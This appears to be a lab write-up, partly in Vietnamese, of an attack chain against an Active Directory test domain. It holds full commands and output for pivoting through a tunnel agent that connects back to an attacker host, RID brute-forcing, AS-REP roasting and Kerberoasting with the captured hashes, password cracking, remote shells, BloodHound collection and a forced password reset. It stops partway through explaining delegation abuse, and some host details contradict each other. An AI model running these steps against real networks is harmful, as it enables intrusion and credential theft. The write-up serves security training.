

# Information
## Attack flow



## System information
- Subnet: 192.168.198.0 /24
- Gateway/DNS (DC): 192.168.198.10
- Machines:
    - Linux Server (Public facing):
        - OS: Ubuntu 18.04
        - IP: 
            - Public interface: 192.168.198.151
            - Private interface: 10.0.0.3
        - Roles: Web server
    - DC01 (Domain Controller):
        - OS: Window server 2019
        - IP: 10.0.0.10
        - Domain: vdt.local
        - Roles: AD DS, DNS
    - WS01 (Workstation):
        - OS: Window 7
        - IP 10.0.0.6
        - Domain: vdt.local
        - Roles: User workstation `admin_service` (use for edit GPO)
    - Attacker machine:
        - OS: Parrot
        - IP: 172.21.154.241

# Initial access
Initial access into public facing
```bash
ssh root@192.168.198.149
root@192.168.198.149's password:
Welcome to Ubuntu 24.04 LTS (GNU/Linux 6.8.0-60-generic x86_64)
```

# Post exploitation
## Discovery
Check network interface, we can see this host is a part of 2 network families, 3 others belong to docker network
```bash
ubuntu@ubuntu:~$ ip addr
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host noprefixroute
       valid_lft forever preferred_lft forever
2: ens33: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 00:0c:29:dc:53:b9 brd ff:ff:ff:ff:ff:ff
    altname enp2s1
    inet 10.0.0.3/24 metric 100 brd 10.0.0.255 scope global dynamic ens33
       valid_lft 1796sec preferred_lft 1796sec
    inet6 fe80::20c:29ff:fedc:53b9/64 scope link
       valid_lft forever preferred_lft forever
3: ens37: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 00:0c:29:dc:53:c3 brd ff:ff:ff:ff:ff:ff
    altname enp2s5
    inet6 fe80::20c:29ff:fedc:53c3/64 scope link
       valid_lft forever preferred_lft forever
4: br-6a2d60eaef6e: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc noqueue state DOWN group default
    link/ether b2:5c:56:8c:ca:12 brd ff:ff:ff:ff:ff:ff
    inet 172.16.101.1/24 brd 172.16.101.255 scope global br-6a2d60eaef6e
       valid_lft forever preferred_lft forever
5: docker0: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc noqueue state DOWN group default
    link/ether a2:ee:92:f4:7e:be brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
       valid_lft forever preferred_lft forever
6: br-a50b63226c92: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc noqueue state DOWN group default
    link/ether 06:0c:f2:33:90:99 brd ff:ff:ff:ff:ff:ff
    inet 172.16.100.1/24 brd 172.16.100.255 scope global br-a50b63226c92
       valid_lft forever preferred_lft forever
7: ens38: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 00:0c:29:dc:53:cd brd ff:ff:ff:ff:ff:ff
    altname enp2s6
    inet 192.168.198.151/24 metric 100 brd 192.168.198.255 scope global dynamic ens38
       valid_lft 1700sec preferred_lft 1700sec
    inet6 fe80::20c:29ff:fedc:53cd/64 scope link
       valid_lft forever preferred_lft forever
ubuntu@ubuntu:~$
```

Using ping sweep to scan for alive hosts. We can see 2 IP in this private network.
```bash
root@ubuntu:~# for i in $(seq 1 254); do (ping -c 1 10.0.0.${i} | grep "64 bytes from" | grep -oE '([0-9]{1,3}[\.]){3}[0-9]{1,3}' &); done
10.0.0.3
10.0.0.6
10.0.0.10
root@ubuntu:~#
```


# Pivoting
Back on our attacker machine, we will establish a more powerful Layer 3 tunnel using Ligolo-NG. Unlike a SOCKS proxy, Ligolo-NG creates a virtual network interface (ligolo), effectively placing our attacker machine directly on the target's internal network. This provides full network connectivity, including ICMP, and allows us to use any tool without needing proxychains.
Setup Attacker Proxy & TUN Interface:
```bash
# On attacker machine
❯ ./proxy -selfcert
# In another terminal
❯ sudo ip tuntap add user <your_user> mode tun ligolo
❯ sudo ip link set ligolo up
```

Deploy and Run Agent on Victim:
```bash
❯ ./agent -connect <attacker_ip>:11601 -ignore-cert
```

Start Tunnel and Add Route:
```bash
# Back on attacker's ligolo-ng proxy interface
» session
[+] Sessions
 0: pumpkin@WebServer (192.168.198.149) - Connected
» use 0
» start

# In another terminal, add route to the target network
❯ sudo ip route add <target_subnet> dev ligolo # e.g., 10.0.0.0/24
```

# Recon
## Nmap
We use nmap to scan both IP and the IP 10.0.0.10 seems to be a Windows Domain Controller and 10.0.0.6 belongs to a workstation
```bash
❯ nmap -sC -sV -p- -oA nmap/details 10.0.0.6 10.0.0.10 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-13 15:57 +07
Nmap scan report for ws01.vdt.local (10.0.0.6)
Host is up (0.066s latency).
Not shown: 65520 closed tcp ports (conn-refused)
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: VDT)
554/tcp   open  rtsp?
2869/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
5357/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Service Unavailable
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
10243/tcp open  unknown
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49177/tcp open  msrpc        Microsoft Windows RPC
49183/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: WS01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: -2h19m59s, deviation: 4h02m27s, median: 0s
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: WS01
|   NetBIOS computer name: WS01\x00
|   Domain name: vdt.local
|   Forest name: vdt.local
|   FQDN: WS01.vdt.local
|_  System time: 2025-06-13T16:00:16+07:00
| smb2-time: 
|   date: 2025-06-13T09:00:16
|_  start_date: 2025-06-13T02:25:13
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: WS01, NetBIOS user: <unknown>, NetBIOS MAC: 00:0c:29:92:8f:6b (VMware)

Nmap scan report for vdt.local (10.0.0.10)
Host is up (0.023s latency).
Not shown: 65509 closed tcp ports (conn-refused)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-06-13 08:58:27Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: vdt.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: vdt.local0., Site: Default-First-Site-Name)
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: VDT
|   NetBIOS_Domain_Name: VDT
|   NetBIOS_Computer_Name: DC01
|   DNS_Domain_Name: vdt.local
|   DNS_Computer_Name: DC01.vdt.local
|   DNS_Tree_Name: vdt.local
|   Product_Version: 10.0.17763
|_  System_Time: 2025-06-13T09:00:14+00:00
| ssl-cert: Subject: commonName=DC01.vdt.local
| Not valid before: 2025-06-12T03:13:44
|_Not valid after:  2025-12-12T03:13:44
|_ssl-date: 2025-06-13T09:01:13+00:00; 0s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49671/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  msrpc         Microsoft Windows RPC
49677/tcp open  msrpc         Microsoft Windows RPC
49687/tcp open  msrpc         Microsoft Windows RPC
49723/tcp open  msrpc         Microsoft Windows RPC
49925/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_nbstat: NetBIOS name: DC01, NetBIOS user: <unknown>, NetBIOS MAC: 00:0c:29:50:67:8c (VMware)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-06-13T09:00:14
|_  start_date: N/A

Post-scan script results:
| clock-skew: 
|   -2h19m59s: 
|     10.0.0.6 (ws01.vdt.local)
|_    10.0.0.10 (vdt.local)
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 2 IP addresses (2 hosts up) scanned in 255.62 seconds
```

Based on these ports, we will prioritize to:
1. Check SMB (unauth access to files, or writable shares. Enumerate users, etc.)
2. DNS - Check for zone transfers, or bruteforce subdomains
3. LDAP - Enumerate, though typically need creds

## SMB
### Shares
List shares using null session but got reject:
```bash
❯ nxc smb 10.0.0.10 -u '' -p '' --shares
SMB         10.0.0.10       445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:vdt.local) (signing:True) (SMBv1:False)
SMB         10.0.0.10       445    DC01             [+] vdt.local\:
SMB         10.0.0.10       445    DC01             [-] Error enumerating shares: STATUS_ACCESS_DENIED
```

### User enumeration
- Mọi object Windows (bao gồm uses và groups) đều có security identifier (SID), là một ID bao gồm các thông tin về config domain và sẽ có dạng như là `S-1-5-21-1004336348-1177238915-682003330-512` , SID này bao gồm những thành phần sau
	- Revision level (1)
	- Identifier authority (5, NT Authority)
	- Domain identifier (21-1004336348-1177238915-682003330, Contoso)
	- RID (512, Domain Admins)

- Trong một domain hay một stand-alone host, toàn bộ SID ngoại trừ số cuối cùng sẽ giống nhau và số cuối cùng là định danh tương đối (relative identifier) hoặc RID. Các giá trị này nằm trong phạm vi có thể dự đoán được, do đó ta có thể brute force các số trong phạm vi này và lấy danh sách user và group. 

```bash
❯ nxc smb 10.0.0.10 -u '' -p '' --rid-brute 
SMB         10.0.0.10       445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:vdt.local) (signing:True) (SMBv1:False)
SMB         10.0.0.10       445    DC01             [+] vdt.local\:
SMB         10.0.0.10       445    DC01             498: VDT\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.0.0.10       445    DC01             500: VDT\Administrator (SidTypeUser)
SMB         10.0.0.10       445    DC01             501: VDT\Guest (SidTypeUser)
SMB         10.0.0.10       445    DC01             502: VDT\krbtgt (SidTypeUser)
SMB         10.0.0.10       445    DC01             512: VDT\Domain Admins (SidTypeGroup)
SMB         10.0.0.10       445    DC01             513: VDT\Domain Users (SidTypeGroup)
SMB         10.0.0.10       445    DC01             514: VDT\Domain Guests (SidTypeGroup)
SMB         10.0.0.10       445    DC01             515: VDT\Domain Computers (SidTypeGroup)
SMB         10.0.0.10       445    DC01             516: VDT\Domain Controllers (SidTypeGroup)
SMB         10.0.0.10       445    DC01             517: VDT\Cert Publishers (SidTypeAlias)
SMB         10.0.0.10       445    DC01             518: VDT\Schema Admins (SidTypeGroup)
SMB         10.0.0.10       445    DC01             519: VDT\Enterprise Admins (SidTypeGroup)
SMB         10.0.0.10       445    DC01             520: VDT\Group Policy Creator Owners (SidTypeGroup)
SMB         10.0.0.10       445    DC01             521: VDT\Read-only Domain Controllers (SidTypeGroup)
SMB         10.0.0.10       445    DC01             522: VDT\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.0.0.10       445    DC01             525: VDT\Protected Users (SidTypeGroup)
SMB         10.0.0.10       445    DC01             526: VDT\Key Admins (SidTypeGroup)
SMB         10.0.0.10       445    DC01             527: VDT\Enterprise Key Admins (SidTypeGroup)
SMB         10.0.0.10       445    DC01             553: VDT\RAS and IAS Servers (SidTypeAlias)
SMB         10.0.0.10       445    DC01             571: VDT\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.0.0.10       445    DC01             572: VDT\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.0.0.10       445    DC01             1000: VDT\DC01 (SidTypeUser)
SMB         10.0.0.10       445    DC01             1001: VDT\DC01$ (SidTypeUser)
SMB         10.0.0.10       445    DC01             1102: VDT\DnsAdmins (SidTypeAlias)
SMB         10.0.0.10       445    DC01             1103: VDT\DnsUpdateProxy (SidTypeGroup)
SMB         10.0.0.10       445    DC01             1104: VDT\dev01 (SidTypeUser)
SMB         10.0.0.10       445    DC01             1106: VDT\admin_service (SidTypeUser)
SMB         10.0.0.10       445    DC01             1107: VDT\SRV01$ (SidTypeUser)
SMB         10.0.0.10       445    DC01             1108: VDT\WS01$ (SidTypeUser)
SMB         10.0.0.10       445    DC01             1109: VDT\LX01$ (SidTypeUser)
SMB         10.0.0.10       445    DC01             1111: VDT\dev02 (SidTypeUser)
SMB         10.0.0.10       445    DC01             1112: VDT\VDT_WinRM_Users (SidTypeGroup)
```

We will run that a gain to make a `users`list:
```bash
❯ nxc smb 10.0.0.10 -u '' -p '' --rid-brute | grep SidTypeUser  | cut -d'\' -f2 | cut -d' ' -f1 | tee users.txt
Administrator
Guest
krbtgt
DC01
DC01$
dev01
admin_service
SRV01$
WS01$
LX01$
dev02
```

## DNS
DNS typically uses TCP only when the response size exceeds 512 bytes. This is commonly associated with a Zone Transfer, where a DNS server provides all the information it has for a specific domain. While there are multiple methods for DNS enumeration, we will attempt a Zone Transfer since the server is listening on TCP port 53.

We initiated the attempt using dig for the vdt.local domain but received no results. This suggests one of two possibilities: either the server is configured to deny Zone Transfers, or it is an AD-Integrated Zone. In an AD-Integrated environment, DNS data is stored within the Active Directory database, and DNS replication between Domain Controllers occurs through AD's native replication mechanism, rather than the traditional Zone Transfer protocols (AXFR/IXFR) used between standard DNS servers
```bash
❯ dig axfr @10.0.0.10 vdt.local                                  

; <<>> DiG 9.18.33-1~deb12u2-Debian <<>> axfr @10.0.0.10 vdt.local
; (1 server found)
;; global options: +cmd
; Transfer failed.
```

We performed DNS enumeration against the `vdt.local` domain using dnsenum with a large subdomain wordlist. The tool successfully identified key infrastructure hosts, including the Domain Controller dc01.vdt.local at `10.0.0.10` and a workstation ws01.vdt.local at `10.0.0.6`.`gc._msdcs.vdt.local`, `domaindnszones.vdt.local`, `forestdnszones.vdt.local`: These are standard, but important, service (SRV) records for Active Directory. Their presence confirms this is a typical AD environment and that 10.0.0.10 serves as the Global Catalog (GC).
```bash
❯ dnsenum --dnsserver 10.0.0.10 --enum -p 0 -s 0 -o subdomains.txt -f /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt vdt.local
dnsenum VERSION:1.2.6

-----   vdt.local   -----


Host's addresses:
__________________

vdt.local.                               600      IN    A         10.0.0.10


Name Servers:
______________

dc01.vdt.local.                          3600     IN    A         10.0.0.10


Mail (MX) Servers:
___________________


Trying Zone Transfers and getting Bind Versions:
_________________________________________________

unresolvable name: dc01.vdt.local at /usr/bin//dnsenum line 900 thread 1.

Trying Zone Transfer for vdt.local on dc01.vdt.local ...
AXFR record query failed: no nameservers


Brute forcing with /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt:
________________________________________________________________________________________

gc._msdcs.vdt.local.                     600      IN    A         10.0.0.10
domaindnszones.vdt.local.                600      IN    A         10.0.0.10
forestdnszones.vdt.local.                600      IN    A         10.0.0.10
ws01.vdt.local.                          1200     IN    A          10.0.0.6
```


Add domain resolution into `/etc/hosts`
```bash
10.0.0.10 vdt.local dc01.vdt.local
10.0.0.6  ws01.vdt.local
```

# Auth as `dev01`
## Get password hash:
### AS-Rep Roasting:
We can use the `netexec` or `impacket-GetNPUsers` to perform AS-Rep Roasting attack
```bash
❯ GetNPUsers.py vdt.local/ -usersfile users.txt -format hashcat -outputfile asrep.hash -no-pass    
Impacket v0.11.0 - Copyright 2023 Fortra

$krb5asrep$23$dev01@VDT.LOCAL:925daa79d3aa8caae68b7267469234ae$04b7b0f794f651fa10c2458b1d3f55a5a4f329d31889de92894dfab7d733b46965d65e035d0ba40a82b9621168ca4851b2cfbf2854a71f58c1c6a3e9464af60d664bad4ae167ae0dc32d01814586bd8f1b01905e8560f0c11db2bbd46b248aef16dfa087c4618b28a97d1adb465e75fd6a03f1abe653345c1bdd55c8adef11a93539bd1c4d8b27b03128723e0ebb3bf413d4acead1a676493b5c27a3755f670b7deb7bcc788b4d3647b16cf2837e569caf70d618e39b381f03b6ce2779d39ef55de962dc4f54c48905538d43337c775a8f51887fdfa786fc19395d9e6f04f0efd08d29a9f0a5
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
...SNIP...
```

### Kerberoasting
```bash
❯ GetUserSPNs.py -no-preauth dev01 -usersfile users.txt vdt.local/ | grep '^\$krb' > kerberoasting_hashes

❯ cat kerberoasting_hashes
$krb5tgs$23$*dev01$VDT.LOCAL$dev01*$7a834ef0c77c1f74f09178bc153e9e66$7be755d80452ffe19650927c13dc20791aad80fbc8f6e6228741244dd980b8b3e38639f862405e9dee5a38459c4c508d3ae2248e4e92131c65db2128e98e795e7085fc13eaf3433cd5f5367de1a73c2ef05126d65b6ef3e6c6fa0167e55c7112aab02126e4a54348b24891ac2418cf57ab3e8f66146c4b2799b390b2e2b196b7e8ada4fdd5229f4c8d964b83628766f25894afd098b5fc34ea48fc9e6c29d755596869537742abd2c7a1b1bbcc13f6cc78b164d22bb95d849157a5c292f1ba81e15cefd68a8b24c1be2031451b98db5917236b5d79acbedfee7f9ac0fc41f3dea58887599e74fa576ceaefebc0232eaa30633eb0d2971cf6b7f39ededd4c774c762470cf895e06176e6f54ea60f82c31d2c5056f94c0eab3fe19c356a0e8b78f15141076dfb90fd23ed3e06a8392a09ba6478f3f083f44cf875a8f391501b35b2b15157bb2f293e68a4fdf9cb6cac1610bf509b94bb78a6eb930c21acfb7b7b388628d3a50e79a0c2a54a3640a10e042c4459f3a27ad8ce9cd90eeb666c676364a64f576dc7f4506cb273b215b04663e5426c1d060ee5e63b4f8ad663f3d87e11f4ab763b4acfd77e48c4173277c0f2ac595810bc4b7c4190eb55e351d278124ef348589f85c1001d6f35b1760bb239b0ae8c92c6d1e8b9191ee9c10793e1721baf76a0a874ac7b2fd1d39c1bab0dfa39c73ad80e3b5da629f51b2853838a6b4bb7e3dec7f2eeb11aef3888d32dc8ad36ca996a95eb84cd6a18ff5675a907dcefde8ce0a3c47f385a6d1252eaa3ba7d339b4d4903433ccd45fecae370e11e0f0dd7aa28aeba2fc1da24034571dc03b49d387b8b6a4da4accd88c6c1d4b188b66bf45e22f0982592b24524709d8b2276a49967699c5a8671e713bdd1622a1dd3b42141c8d30d8632c0427bb951dd8d5714297f517333d8a5d4fc00ddab3ef1c504d5e786f6626cfd28c4c829277ff9236ee75b2e753c74c1656770edfaacced1476f3270b38e798264b94681e4f989b8bf8ddb23b29b4432198ff84b6c3b30b0e4e7f9822a52fac9ab71570bd716ffb7e9a0d017a15dcc98a5b40f93e519be878258ad8d4344d1c2ca69134a104f223846e84af034ba3ac82b436230c6ae4de77a703718b12a7e600856e96628e80a4e2501cc0e5056819d426a97df5e87e693cb81b4a3d871f739d55db6aaaaef37ed6517058f2536307a9ddc874375ae51f42d258bbd45eb45b28ae876abc0a67ecf4f86957c2fb1780145d4e4a4ea878a950363401660d238ef6dc850ba52e04cfdf2ed9f7bf956c9b0eb4595ad4750653f728559090b79b4950917ab64e52747797d7aad42b49e7debccfd68f7ef0416f
```

## Crack the password
We can crack the password using `hashcat` mode 13100 for `Kerberoasting` or 18200 for `AS-REP roasting` to get the credential `dev01:Password123!`

Test the credential:
```bash
❯ nxc smb vdt.local -u 'dev01' -p 'Password123!' 
SMB         10.0.0.10       445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:vdt.local) (signing:True) (SMBv1:False)
SMB         10.0.0.10       445    DC01             [+] vdt.local\dev01:Password123! 
```

Initial access to `dev01`:
```bash
❯ evil-winrm -i vdt.local -u dev01 -p 'Password123!'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\dev01.VDT\Documents> whoami
vdt\dev01
*Evil-WinRM* PS C:\Users\dev01.VDT\Documents> cd C:\Users\dev01.VDT\Desktop\
*Evil-WinRM* PS C:\Users\dev01.VDT\Desktop> dir


    Directory: C:\Users\dev01.VDT\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        5/28/2025   2:09 AM             36 dev.txt


*Evil-WinRM* PS C:\Users\dev01.VDT\Desktop> type dev.txt
Flag for initial access to vdt.local
```


# Auth as `admin_service`
## Host discovery
- Ta sẽ sử dụng bộ công cụ `BloodHound` để hiểu rõ các quyền có sẵn cho các user, group, ... trên AD này. Công cụ này sử dụng nhiều giao thức tiêu chuẩn của Windows và AD như LDAP (để truy vấn thông tin từ AD về người dùng, GPO, OU, .. và các thuộc tính của chúng), SMB (enumerate các shares, phân tích các tệp GPO, ...), RPC (thực hiện các lệnh từ xa và truy vấn thông tin cấp thấp từ các máy Windows như kiểm tra local group membership, session enumeration, thực thi các lệnh WMI), DNS (phân giải domain và IP, tìm kiếm DC trong môi trường, ...), ...
- Ta có thể tải `SharpHound` (file `.exe` compile từ `C# .NET` chạy trên win) lên máy target hoặc sử dụng `bloodhound-python`(là file `python` chạy đa nền tảng) trên máy tấn công để thực hiện discovery. Nhưng ở đây ta sẽ sử dụng `bloodhound-python` với các ưu điểm như sử dụng đa nền tảng, fileless, khó phát hiện hơn `SharpHound`
```bash
❯ bloodhound-python -c All -u 'dev01' -p 'Password123!' -ns 10.0.0.10 -d vdt.local -dc vdt.local --zip  
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: vdt.local
INFO: Getting TGT for user
INFO: Connecting to LDAP server: vdt.local
WARNING: Kerberos auth to LDAP failed, trying NTLM
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 4 computers
INFO: Connecting to LDAP server: vdt.local
WARNING: Kerberos auth to LDAP failed, trying NTLM
INFO: Found 8 users
INFO: Found 53 groups
INFO: Found 4 gpos
INFO: Found 20 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: lx01
INFO: Querying computer: WS01.vdt.local
INFO: Querying computer: SRV01.vdt.local
INFO: Querying computer: DC01.vdt.local
WARNING: Could not resolve: lx01: The resolution lifetime expired after 3.104 seconds: Server Do53:10.0.0.10@53 answered The DNS operation timed out.
WARNING: Could not resolve: SRV01.vdt.local: The resolution lifetime expired after 3.105 seconds: Server Do53:10.0.0.10@53 answered The DNS operation timed out.
INFO: Done in 00M 07S
INFO: Compressing output into 20250613104117_bloodhound.zip
```


We can see that the `dev01` users has the GenericWrite permission to `service_admin` thats mean we have the ability to write any non-protected attribute on the target object, including "member" for a group, and "ServicePrincipleName" for user and then obtain a crackable hash. After all, we do the cleanup of the ServicePrincipalName for the stealthy.

Beside, we can see that the `service_admin` has the WriteDACL permission, which means we can take advantage of this and configuring the `WS01` for RBCD


## Privilege Escalation
In this lab, we just simple change the password of the `admin_service` to get access on this user
```bash
*Evil-WinRM* PS C:\Users\dev01.VDT\Documents> $NewPassword = ConvertTo-SecureString "RBCDmasterP@ss1!" -AsPlainText -Force
*Evil-WinRM* PS C:\Users\dev01.VDT\Documents> Set-ADAccountPassword -Identity admin_service -NewPassword $NewPassword -Reset -Server dc01.vdt.local
```
After successfully change the password, we privilege to domain under `admin_service`
```bash
❯ evil-winrm -i vdt.local -u admin_service -p 'RBCDmasterP@ss1!' 
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\admin_service\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\admin_service\Desktop> dir


    Directory: C:\Users\admin_service\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        6/13/2025   4:31 PM             43 svc_adm.txt


*Evil-WinRM* PS C:\Users\admin_service\Desktop> type svc_adm.txt
Flag for privilege escalte to admin_service
```


# Privilege Escalation on `WS01` computer
## Resource-based Constrained Delegation abuse
- Về Constrained Delegation:
	-  1 ví dụ về áp dụng constrained delegation là mô hình webserver và database server và 1 user muốn truy cập vào DB qua webserver
	- S4U2Proxy:
		- User xác thực với webserver bằng cách gửi ST cho webserver
		- Webserver muốn truy cập DB với danh nghĩa user thì phải "đóng giả" (impersonate) user khi giao tiếp với DB. Để làm vậy thì webserver phải request ticket mới từ DC
			- Webserver gửi request TGS đặc biệt tới DC để xin một vé ST mới, cho phép webserver truy cập DB với danh nghĩa user
			- Webserver đính kèm ST ticket của user đã gửi ở bước trước vào request này
			- DC sau đấy sẽ kiểm tra các điều kiện (có quyền delegate hay không, ST ticket có gán flag fowardable hay không). Nếu hợp lệ, DC sẽ trả về một vé ST mới. Vé này xác nhận rằng "User 'X' đang cố gắng truy cập vào DB" mặc dù yêu cầu đến từ webserver
	- S4U2Self với Protocol Transition
		- Vấn đề đặt ra là: điều gì xảy ra nếu người dùng xác thực với webserver bằng 1 giao thức khác ngoài Kerberos (vd NTLM)? Lúc này webserver không có ST ticket của user để có thể gửi cho DC theo quy trình S4U2Proxy ở trên
		- S4U2Self (Service for User to Self): Nếu webserver được cấu hình đặc biệt và có đủ quyền hạn trên hệ thống thì có thể sử dụng extension S4U2Self
		- Với S4U2Self, webserver yêu cầu DC cấp 1 vé ST cho **chính webservice đó** nhưng **dưới danh nghĩa user**. Ta có thể hiểu rằng webserver tự chuyển xác thực NTLM sang Kerberos đối với chính nó luôn
		-  ST ticket thu được từ S4U2Self này sẽ chỉ có flag "fowardable" nếu constrained delegation được cấu hình là "Constrained Delegation with Protocol Transition"
			- Protocol transition là khả năng cho phép webserver lấy được vé Kerberos cho user ngay cả khi user không dùng Kerberos để vào webserver
- Về Resource-based Constrained Delegation, cơ chế cũng giống vậy nhưng cấu hình được đặt trên object của service/resource (tức là trên object của DB thay vì cấu hình trên webserver)
	- DC sẽ theo dõi một danh sách các tài khoản đáng tin cậy được lưu trữ trên object của DB. Danh sách này chỉ định những service nào được phép delegate đến DB
	- Điểm mấu chốt là chính server DB có thể tự sửa đổi danh sách này. Điều này có nghĩa là người quản trị máy chủ đích (DB server) thay vì máy chủ nguồn (webserver) như Constrained Delegation truyền thống có thể quyết định được service nào được phép request delegate lên chính nó
- Nói 1 cách đơn giản:
